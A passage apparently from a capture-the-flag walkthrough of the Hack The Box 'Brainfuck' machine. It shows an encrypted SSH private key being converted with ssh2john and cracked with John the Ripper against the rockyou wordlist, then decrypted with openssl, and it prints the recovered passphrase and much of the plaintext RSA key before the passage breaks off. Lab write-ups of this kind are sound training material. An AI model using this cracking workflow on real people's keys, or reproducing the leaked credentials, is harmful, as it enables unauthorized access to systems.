 ```python
ul9guSlobasIX5DkAcY+ER3j+/YefpyEnYs+/tfTT1oM+BR3TVSlJcOrvNmrIy59
krKVtulxAejVQzxImWOUDYC947TXu9BAsh0MLoKtpIRL3Hcbu+vi9L5nn5LkhO/V
gdMyOyATor7Amu2xb93OO55XKkB1liw2rlWg6sBpXM1WUgoMQW50Keo6O0jzeGfA
VwmM72XbaugmhKW25q/46/yL4VMKuDyHL5Hc+Ov5v3bQ908p+Urf04dpvj9SjBzn
schqozogcC1UfJcCm6cl+967GFBa3rD5YDp3x2xyIV9SQdwGvH0ZIcp0dKKkMVZt
UX8hTqv1ROR4Ck8G1zM6Wc4QqH6DUqGi3tr7nYwy7wx1JJ6WRhpyWdL+su8f96Kn
F7gwZLtVP87d8R3uAERZnxFO9MuOZU2+PEnDXdSCSMv3qX9FvPYY3OPKbsxiAy+M
wZezLNip80XmcVJwGUYsdn+iB/UPMddX12J30YUbtw/R34TQiRFUhWLTFrmOaLab
Iql5L+0JEbeZ9O56DaXFqP3gXhMx8xBKUQax2exoTreoxCI57axBQBqThEg/HTCy
IQPmHW36mxtc+IlMDExdLHWD7mnNuIdShiAR6bXYYSM3E725fzLE1MFu45VkHDiF
mxy9EVQ+v49kg4yFwUNPPbsOppKc7gJWpS1Y/i+rDKg8ZNV3TIb5TAqIqQRgZqpP
CvfPRpmLURQnvly89XX97JGJRSGJhbACqUMZnfwFpxZ8aPsVwsoXRyuub43a7GtF
9DiyCbhGuF2zYcmKjR5EOOT7HsgqQIcAOMIW55q2FJpqH1+PU8eIfFzkhUY0qoGS
EBFkZuCPyujYOTyvQZewyd+ax73HOI7ZHoy8CxDkjSbIXyALyAa7Ip3agdtOPnmi
6hD+jxvbpxFg8igdtZlh9PsfIgkNZK8RqnPymAPCyvRm8c7vZFH4SwQgD5FXTwGQ
-----END RSA PRIVATE KEY-----
```
We convert the encrypted SSH Private Key into SSH Hash and then, use JTR to crack the Hash.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/brainfuck]
└──╼ # ssh2john.py id_rsa > ssh_hash
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/brainfuck]
└──╼ # john ssh_hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
1g 0:00:00:10 DONE (2021-06-22 19:51) 0.09407g/s 1349Kp/s 1349Kc/s 1349KC/sa6_123..*7¡Vamos!
Session completed
```

SSH private key passphrase : `3poulakia!`

We could now, decode the SSH key and remove the passphrase from the SSH private key once and for all.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/brainfuck]
└──╼ # openssl rsa -in id_rsa 
Enter pass phrase for id_rsa:
writing RSA key
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEA1R0frAsppJU+oKFLBRTZA/rB2mGTdt0VWN4g+wdnf6uWX3Pe
jjZMtlqFasbT8F9kLB2AZMXYFhnNDVKoNZlO844sMTcTVL7oZeflsl+1qPZM1jX8
0uvajR37Ap+QDdBpLazZrPbbG7Afz9TyA3VQ8YFMyKGGtnsqVDqxKnNeqHHK5ICh
PmZr4MaFNvZNvGfILqnP48Whfq9TaylDiYJlapOxtGyiZ3rHpt8ioCrZ3wvWGObH
fsAE0VoD4SjjlFl5bcJDC1OnAFw9b7Ok0MWpkdam6XNlx3mlWjU3dRLTPY7tbUK4
381VTK1vhZd96mhP1glxM0f9V3E/a+mF0ohtGQIDAQABAoIBAQCKx9p2ORa3PRF5
nU+zUW45bzSKN/zF7RcXth+YGaxGscDNDDGkPqwaHDzB2hTuddBQAi44cbZUPh0Q
TgGIVfvaE32n1wvZpjDFHAyy6izsiOhknuezmy/JsfpiLPKsbEnyGpvuTRtGnp04
xJ2Nrvo1K1SLWtTVRMO98jKpSFQeMDsx8vV6waonYxepEwzdBEhfYL/uU2719cMv
WNWWPfPeoymGkse0bdybPYUUNRGMaQBbO2F/OjpdMRB9WGKK1tvPR7b7yIB/i3AQ
Gme5RR7OKsxQDQCMrHlhEoZivFn/e9PuhtlXhYs/RTo0Ro4NZxo7z2WfD8Z0EvA7
tPwfDo75AoGBAPvcVVZQq/ZWeOdPZcOYhzm63eLo8698RelVtjW6kb5SjA5MgXr8
9biprb7NA0ubIRBMGhxsnD5PD8B17gkjeWZpFUWC6yI7QSPyzccSuyZvmSJqwih7
Y1G+cLzTrieCmGNLPnAo4Rq1aaAP7goN7F3EFN6lMHab74t/JhoeQ2oHAoGBANid
xLkuWSvo1KJ5bfona937MqiXaxbFc53nQvcRZKYz2zN9Pz/9hPHCGIrpfd/PjoM3
XmayhtwL9PrcFCPm7XJkYI6dAogzZJgqPLArHGxLzLVprZOqCkT8sLk45YYxewkw
Yl0klJBEaXvI6k4t9afK2jsbhqTJDgDz2J7AGCffAoGBAN47HSVrS0CyLj5TpYR/
+pmq1Axa5mJqcjmgAoXIGL9pkOExCnLd72dAeOlJdmXo/LSnocaA4yBrnIeCx0VT
```